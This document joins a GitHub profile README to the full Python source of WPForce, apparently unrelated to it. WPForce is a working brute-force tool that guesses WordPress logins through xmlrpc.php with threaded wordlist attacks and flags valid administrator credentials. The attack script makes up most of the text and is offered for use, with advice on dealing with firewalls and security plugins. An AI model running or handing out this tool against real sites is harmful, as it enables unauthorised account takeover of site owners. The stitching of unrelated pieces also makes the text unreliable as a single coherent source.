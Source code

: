<table>
  <tr>
  
    
  <td align="center" width="200px">
    
![0660efe82fa3da42ed56eef013171835](https://github.com/gabrielsatoshi/gabrielsatoshi/assets/112598996/b2b76123-7ce6-4384-ba97-74c5007258f6)

 </td>
  </tr>
</table>
  




[![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=F70000&width=435&lines=Hey%2C+my+name+is+gabriel+%F0%9F%91%8B)](https://git.io/typing-svg)

- 🔭 I’m currently working on [d0rkhub](https://github.com/gabrielsatoshi/d0rkhub) my personal project.
- 🧑‍💻 computer analyst on B3 SYSTEMS.
- ☕ Coffee and coding.


<h3 align="left">Languages and Tools:</h3>
<p align="left"> <a href="https://getbootstrap.com" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/bootstrap/bootstrap-plain-wordmark.svg" alt="bootstrap" width="40" height="40"/> </a> <a href="https://www.w3schools.com/css/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/css3/css3-original-wordmark.svg" alt="css3" width="40" height="40"/> </a> <a href="https://git-scm.com/" target="_blank" rel="noreferrer"> <img src="https://www.vectorlogo.zone/logos/git-scm/git-scm-icon.svg" alt="git" width="40" height="40"/> </a> <a href="https://www.w3.org/html/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/html5/html5-original-wordmark.svg" alt="html5" width="40" height="40"/> </a> <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/javascript/javascript-original.svg" alt="javascript" width="40" height="40"/> </a> <a href="https://www.linux.org/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/linux/linux-original.svg" alt="linux" width="40" height="40"/> </a> <a href="https://www.mysql.com/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/mysql/mysql-original-wordmark.svg" alt="mysql" width="40" height="40"/> </a> <a href="https://nodejs.org" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/nodejs/nodejs-original-wordmark.svg" alt="nodejs" width="40" height="40"/> </a> <a href="https://www.php.net" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/php/php-original.svg" alt="php" width="40" height="40"/> </a> <a href="https://www.python.org" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" alt="python" width="40" height="40"/> </a> <a href="https://www.sqlite.org/" target="_blank" rel="noreferrer"> <img src="https://www.vectorlogo.zone/logos/sqlite/sqlite-icon.svg" alt="sqlite" width="40" height="40"/> </a> </p>

import re
import sys
import time
import socket
import urllib2
import argparse
import threading
from urlparse import urljoin

__author__ = 'n00py'
# These variables must be shared by all threads dynamically
correct_pairs = {}
total = 0

def has_colours(stream):
    if not hasattr(stream, "isatty"):
        return False
    if not stream.isatty():
        return False # auto color only on TTYs
    try:
        import curses
        curses.setupterm()
        return curses.tigetnum("colors") > 2
    except:
        return False
has_colours = has_colours(sys.stdout)
BLACK, RED, GREEN, YELLOW, BLUE, MAGENTA, CYAN, WHITE = range(8)


def printout(text, colour=WHITE):
        if has_colours:
                seq = "\x1b[1;%dm" % (30+colour) + text + "\x1b[0m"
                sys.stdout.write(seq)
        else:
                sys.stdout.write(text)


def slice_list(input, size):
    input_size = len(input)
    slice_size = input_size / size
    remain = input_size % size
    result = []
    iterator = iter(input)
    for i in range(size):
        result.append([])
        for j in range(slice_size):
            result[i].append(iterator.next())
        if remain:
            result[i].append(iterator.next())
            remain -= 1
    return result


def worker(wordlist,thread_no,url,userlist,verbose,debug,agent):
    global total
    global correct_pairs
    for n in wordlist:
        current_pass = wordlist.index(n)
        for x in userlist:
            current_user = userlist.index(x)
            user = userlist[current_user]
            password = wordlist[current_pass]
            if user not in correct_pairs:
                if user != "":
                    if password != "":
                        PasswordAttempt(user,password,url,thread_no,verbose,debug,agent)
        total += 1


def BuildThreads(list_array,url,debug,userlist,verbose,agent):
    if debug:
        print "Here is the content of the wordlists for each thread"
        for i in range(len(list_array)):
            print "Thread " + str(i)
            printout(str(list_array[i]), YELLOW)
            print "\n-----------------------------------------------------"
    threads = []
    for i in range(len(list_array)):
        t = threading.Thread(target=worker, args=(list_array[i], i, url,userlist,verbose,debug,agent))
        t.daemon = True
        threads.append(t)
        t.start()


def PrintBanner(input,wordlist,url,userlist,passlist):
    banner = """\
       ,-~~-.___.       __        __ ____   _____
      / |  x     \      \ \      / /|  _ \ |  ___|___   _ __  ___  ___
     (  )        0       \ \ /\ / / | |_) || |_  / _ \ | '__|/ __|/ _ \.
      \_/-, ,----'  ____  \ V  V /  |  __/ |  _|| (_) || |  | (__|  __/
         ====      ||   \_ \_/\_/   |_|    |_|   \___/ |_|   \___|\___|
        /  \-'~;   ||     |                v.1.0.0
       /  __/~| ...||__/|-"   Brute Force Attack Tool for Wordpress
     =(  _____||________|                 ~n00py~
    """
    print banner
    print ("Username List: %s" % input) + " (" + str(len(userlist)) + ")"
    print ("Password List: %s" % wordlist) + " (" + str(len(passlist)) + ")"
    print ("URL: %s" % url)


def TestSite(url):
    protocheck(url)
    print "Trying: " + url
    try:
        urllib2.urlopen(url, timeout=3)
    except urllib2.HTTPError, e:
        if e.code == 405:
            print url + " found!"
            print "Now the brute force will begin!  >:)"
        if e.code == 404:
            printout(str(e), YELLOW)
            print " - XMLRPC has been moved, removed, or blocked"
            sys.exit()
    except urllib2.URLError, g:
        printout("Could not identify XMLRPC.  Please verify the domain.\n", YELLOW)
        sys.exit()
    except socket.timeout as e:
        print type(e)
        printout("The socket timed out, try it again.", YELLOW)
        sys.exit()


def PasswordAttempt(user, password, url, thread_no,verbose,debug,agent):
    global passlist
    if verbose is True or debug is True:
        if debug is True:
            thready = "[Thread " + str(thread_no) + "]"
            printout(thready, YELLOW)
        print "Trying " + user + " : " + password + "\n",
    headers = {'User-Agent': agent,
               'Connection': 'keep-alive',
               'Accept': 'text/html'
               }
    post = "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value><string>" + user + "</string></value></param><param><value><string>" + password + "</string></value></param></params></methodCall>"
    try:
        req = urllib2.Request(url, post, headers)
        response = urllib2.urlopen(req, timeout=3)
        the_page = response.read()
        look_for = "isAdmin"
        try:
            splitter = the_page.split(look_for, 1)[1]
            correct_pairs[user] = password
            print "--------------------------"
            success = "[" + user + " : " + password + "] are valid credentials!  "
            adminAlert = ""
            if splitter[23] == "1":
                adminAlert = "- THIS ACCOUNT IS ADMIN"
            printout(success, GREEN)
            printout(adminAlert, RED)
            print "\n--------------------------"
        except:
            pass
    except urllib2.URLError, e:
        if e.code == 404 or e.code == 403:
            global total
            printout(str(e), YELLOW)
            print " - WAF or security plugin likely in use"
            total = len(passlist)
            sys.exit()
        else:
            printout(str(e), YELLOW)
            print " - Try reducing Thread count "
            if args.verbose is True or args.debug is True:
                print user + ":" + password + " was skipped"
    except socket.timeout as e:
        printout(str(e), YELLOW)
        print " - Try reducing Thread count "
        if args.verbose is True or args.debug is True:
            print user + ":" + password + " was skipped"
    except socket.error as e:
        printout(str(e), YELLOW)
        print " - Got an RST, Probably tripped the firewall\n",
        total = len(passlist)
        sys.exit()


def protocheck(url):
    url_pattern = re.compile("http[s]?://(?:[a-zA-Z]|[0-9]|[$-_@.&+]|[!*\(\),]|(?:%[0-9a-fA-F][0-9a-fA-F]))+")
    if not url_pattern.match(url):
        printout("Incorrect URL. Please include the protocol in the URL.\n", YELLOW)
        sys.exit()

def main():
    parser = argparse.ArgumentParser(description='This is a tool to brute force Worpress using the Wordpress API')
    users = parser.add_mutually_exclusive_group(required=True)
    users.add_argument('-i','--input', help='Input file name')
    users.add_argument('-si' '--singleinput', help='Input list of users', action='store', dest='singleinput', nargs='+')
    parser.add_argument('-w','--wordlist',help='Wordlist file name', required=True)
    parser.add_argument('-u','--url',help='URL of target', required=True)
    parser.add_argument('-v','--verbose',help=' Verbose output.  Show the attemps as they happen.', required=False, action='store_true')
    parser.add_argument('-t','--threads',help=' Determines the number of threads to be used, default is 10', type=int, default=10, required=False)
    parser.add_argument('-a','--agent',help=' Determines the user-agent', type=str, default="WPForce Wordpress Attack Tool 1.0", required=False)
    parser.add_argument('-d','--debug',help=' This option is used for determining issues with the script.', action='store_true', required=False)
    args = parser.parse_args()
    
    url = args.url
    url = urljoin(url, 'xmlrpc.php')

    if args.input:
        userlist = open(args.input, 'r').read().split('\n')
    else:
        printout("Remember to pass usernames in space delimited form!\n", YELLOW)
        userlist = args.singleinput

    totalusers = len(userlist)

    passlist = open(args.wordlist, 'r').read().split('\n')
    
    PrintBanner(args.input,args.wordlist,args.url,userlist,passlist)
    TestSite(url)

    list_array = slice_list(passlist, args.threads)
    BuildThreads(list_array,url,args.debug,userlist,args.verbose,args.agent)
    while (len(correct_pairs) <= totalusers) and (len(passlist) > total):
            time.sleep(0.1)
            sys.stdout.flush()
            percent = "%.0f%%" % (100 * (total)/len(passlist))
            print " " + percent + " Percent Complete\r",
    
    print "\nAll correct pairs:"
    printout(str(correct_pairs), GREEN)
    print ""

if __name__ == "__main__":
    main()




